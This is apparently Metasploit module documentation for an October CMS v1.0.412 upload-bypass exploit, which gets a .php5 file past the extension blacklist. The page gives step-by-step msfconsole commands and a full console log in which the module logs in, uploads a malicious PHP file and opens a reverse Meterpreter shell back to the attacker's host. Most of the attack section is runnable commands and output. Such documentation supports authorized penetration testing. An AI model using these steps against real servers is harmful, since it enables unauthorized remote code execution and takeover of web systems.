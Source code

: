 ## Description

  An authenticated user with permission to upload and manage media contents can
  upload various files on the server. The application prevents the user from
  uploading PHP code by checking the file extension. It uses blacklist based
  approach, as seen in octobercms/vendor/october/rain/src/Filesystem/
  Definitions.php:blockedExtensions().

## Vulnerable Software

  October CMS v1.0.412 (build 412)
  https://www.exploit-db.com/apps/4ff8a9688f31b7338020d0bc85da13fc-october-1.0.412.tar.gz

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/multi/http/october_upload_bypass_exec```
  4. Do: ```set RHOSTS <ip>``
  5. Do: ```set USERNAME <user>```
  6. Do: ```set PASSWORD <pass>```
  7. You should get a shell.

## Verification Steps

  ```
  msf > use exploit/multi/http/october_upload_bypass_exec
  msf exploit(multi/http/october_upload_bypass_exec) > set rhosts 10.10.10.16
  rhosts => 10.10.10.16
  msf exploit(multi/http/october_upload_bypass_exec) > setg verbose true
  verbose => true
  msf exploit(multi/http/october_upload_bypass_exec) > set lhost 10.10.14.8
  lhost => 10.10.14.8
  msf exploit(multi/http/october_upload_bypass_exec) > run 

  [*] Started reverse TCP handler on 10.10.14.8:4444 
  [+] Token for login : 3ySsc8d8VNMm2V8x3Ns4cay05bwhRxnoIkQjRnBP
  [+] Session Key for login : uVNSZ2YRUm39cf8kqJcWV0qr9xhqq9krCYHeVI6m
  [*] Trying to Login ......
  [+] Authentication successful: admin:admin
  [*] Trying to upload malicious WLMVDKmVpCX.php5 file ....
  [*] Sending stage (38247 bytes) to 10.10.10.16
  [*] Meterpreter session 1 opened (10.10.14.8:4444 -> 10.10.10.16:54124) at 2019-09-03 12:19:20 +0530
  [+] Deleted WLMVDKmVpCX.php5

  meterpreter > sysinfo 
  Computer    : october
  OS          : Linux october 4.4.0-78-generic #99~14.04.2-Ubuntu SMP Thu Apr 27 18:51:25 UTC 2017 i686
  Meterpreter : php/linux
  meterpreter > 
  ```
